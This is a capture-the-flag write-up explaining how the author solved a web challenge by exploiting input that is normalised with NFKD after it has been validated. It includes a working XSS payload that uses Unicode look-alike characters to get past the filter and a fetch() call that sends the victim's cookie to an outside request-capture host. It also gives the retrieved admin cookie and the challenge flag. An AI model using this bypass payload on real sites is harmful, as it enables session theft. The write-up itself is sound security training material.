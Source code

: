 # Challenge
A bunch of university students want to start a company and hired some young university students. I wonder if they paid any attention to security.  
  
# Setup
Website: https://web-chainreaction-a4b5ae3b.chal-2021.duc.tf  
  
# Solution
At the bottom of the login page of the website, we see a link to the developer portal. When we visit `/dev`, we see that the website "is still under construction", and it instead directs us to either `/devchat` or `/admin`. Visiting `/admin` redirects us to `/login` with the flashed message `Not allowed.` at the top of the page. This indicates we need to have some admin "cookie" set in order to proceed.  
  
Visiting `/devchat` instead shows us messages between developers, which give us useful information:
<ol>
  <li> "For now I have set a static cookie, but Ill fix that up on Monday." -> confirms our theory about the admin cookie </li>
  <li> "bruh... you basically just added a vulnerability, why tf are you normalizing after checking the bad characters" -> upon searching for "normalising characters", we see that this probably refers to decomposing Unicode characters into constituent, or smaller parts/a part. </li>
  <li> "Only used it once for a uni project this semester, NFKD I think it was" -> NKFD is a Unicode normalisation scheme, so this solidifies the idea of a normalising user inputted characters. The fact that the developer is normalising after checking for some "bad" payload indicates that to exploit this website, we should "smuggle" these bad strings through Unicode characters which are only unpackaged after input validation, like a Trojan horse. </li>
  <li> "Also the about me section was all html escaped making it look ugly, need to try and find a fix for that as well. It looks very ugly." -> this was sent after a developer said the page was autoescaped because values were inputted raw (which would introduce an XSS vulnerability), however now that that feature seems to be raw. This indicates we need to construct an XSS attack which sends a user's cookie to some proxy, report the error to the admins, check the proxy and retrieve their cookie </li>
</ol>
To test our idea of the XSS, we can register an account, log into it and view our profile page. After entering `" hidden value="` into the "About me" field and updating our information, we see that the field disappears:
[!About me field is gone](disap.png)
However, if we try to enter `<script>`, we see that the website detects a "hacking attempt":
[!Hacking attempt](hackattempt.png)
Not only does this occur for the angle brackets but also simply the string "script". This is where our knowledge of the NFKD normalisation algorithm comes from: we can enter a string which has alternative "Unicode" versions of the angle brackets and one of the letters of "script" to bypass the XSS detection and then have the payload be decomposed with NFKD. Our final payload looks like this (I used RequestBin as the proxy):
```
"＞＜scᴿipt＞ fetch(`https://[my_bin].x.pipedream.net/c=${document.cookie}`)＜/scᴿipt＞
```
Then, after retrieving the cookie **sup3rs3cur34dm1nc00k13**, we can set it on our browser and visit the `/admin` page to read the flag.<br>
Flag: **DUCTF{\_un1c0de\_bypass_x55_ftw!}**
